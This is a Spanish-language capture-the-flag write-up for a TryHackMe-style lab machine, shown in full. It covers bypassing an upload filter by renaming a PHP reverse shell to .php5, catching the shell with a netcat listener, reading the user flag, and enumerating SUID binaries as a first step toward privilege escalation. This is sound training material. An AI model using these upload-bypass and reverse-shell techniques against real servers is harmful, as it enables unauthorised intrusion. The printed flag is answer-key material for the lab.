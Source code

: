 En `/panel/` aparece una interfaz para **subir archivos**. Esto es muy interesante, asi que se me ocurrio la idea de subir un reverse shell para obtener acceso remoto al servidor.

## Reverse Shell

En la interfaz de subida, tratamos de subir un archivo `.php`, pero nos bloquea.

Entonces usamos una técnica de evasión muy común: **renombramos la reverse shell a `.php5`**.

Subimos el archivo, luego vamos a: `http://<IP>/uploads/shell.php5?`

nos ponemos en escucha en `netcat` por el puerto 4444 usaremos el siguiente comando.


```bash
─(zikuta㉿zikuta)-[~/herramientas/Payload-Generator]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.23.120.245] from (UNKNOWN) [10.10.14.186] 60694
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:51:36 up 5 min,  0 users,  load average: 0.01, 0.13, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
```

Ya estamos conectados al servidor por medio de una reverse shell!!!.

ahora ejecutamos el comando

```bash
cat ~/user.txt
THM{y0u_g0t_a_sh3ll}
```

Y obtendremos la flag de usuario.

## Escalada de privilegios

Ahora buscamos cómo subir de `www-data` a `root`. Empezamos buscando archivos con **permisos SUID**, que pueden darnos privilegios.

```bash
$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
```